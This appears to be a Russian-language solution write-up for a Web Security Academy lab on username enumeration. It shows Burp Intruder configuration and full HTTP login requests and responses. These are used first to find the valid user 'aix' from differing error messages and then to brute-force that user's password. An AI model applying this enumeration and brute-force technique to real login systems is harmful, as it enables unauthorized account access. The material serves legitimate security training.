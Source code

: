 # Username enumeration via different responses
APPRENTICE

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

Candidate usernames
Candidate passwords
To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Решение
Перебираю с помощью Inturder пользователей по [словарю](../wordlists/users.txt), указав фиксированный пароль "123". В Settings -> Grep - Match добавлю строку "Invalid username":

`username=§admin§&password=123`

У всех пользователей флаг "Invalid username" будет отмечен как 1, а у пользователя `aix` этого флага не будет.

```
POST /login HTTP/2
Host: 0aa600a10383338d83fd5f6000bb004b.web-security-academy.net
Cookie: session=IDG9Frw9586TYX06Q5XyCxPP7ZLf1E7F
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://0aa600a10383338d83fd5f6000bb004b.web-security-academy.net
Referer: https://0aa600a10383338d83fd5f6000bb004b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

username=aix&password=123
```
Ответ:
```
<p class=is-warning>Incorrect password</p>
```
Теперь буду перебирать пароли пользователя `aix`. В Settings -> Grep - Match добавлю строку "Incorrect password":

`username=aix&password=§123§`

Найден пароль "123321":
```
POST /login HTTP/2
Host: 0aa600a10383338d83fd5f6000bb004b.web-security-academy.net
Cookie: session=IDG9Frw9586TYX06Q5XyCxPP7ZLf1E7F
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0aa600a10383338d83fd5f6000bb004b.web-security-academy.net
Referer: https://0aa600a10383338d83fd5f6000bb004b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

username=aix&password=123321
```
```
HTTP/2 302 Found
Location: /my-account?id=aix
Set-Cookie: session=wM2v9C6MHSIFTKhcmkGWUWfq0ra7He78; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
Задание выполнено.